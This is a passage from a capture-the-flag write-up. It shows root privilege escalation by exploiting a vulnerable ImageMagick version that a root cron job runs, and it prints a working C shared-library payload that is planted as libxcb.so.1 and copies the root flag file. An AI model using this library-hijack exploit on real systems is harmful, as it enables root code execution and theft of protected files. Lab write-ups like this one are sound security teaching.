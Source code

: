 (Note that the script is 'read only' for *developer*, so we cannot simply overwrite it)
A quick search reveals that this version of *ImageMagick* is vulnerable.
I then crafted a script, that would read the content of the root flag and output that to a file this user can read, using [This PoC](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8) [^3].
```c
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
__attribute__((constructor)) void init(){
    system("cat /root/root.txt > ./test.txt");
    exit(0);
}
EOF
```

Placing this shared library in the path of `/opt/app/static/assets/images`{: .filepath}
Will result in the system command being executed by 'root' the next time the crontab is run which will give us the root flag.
>**ROOT FLAG:** will be stored in 'test.txt'
{: .prompt-tip }

> Remember to remove the flag: `rm test.txt` so you don't ruin it for other players!
{: .prompt-warning }

### References
[^1]:[https://docs.gitea.com/installation/install-with-docker](https://docs.gitea.com/installation/install-with-docker)
[^2]:[https://github.com/unix-ninja/hashcat/blob/master/tools/gitea2hashcat.py](https://github.com/unix-ninja/hashcat/blob/master/tools/gitea2hashcat.py)
[^4]:[https://crontab.guru/#*_*_*_*_*](https://crontab.guru/#*_*_*_*_*)
[^3]:[https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)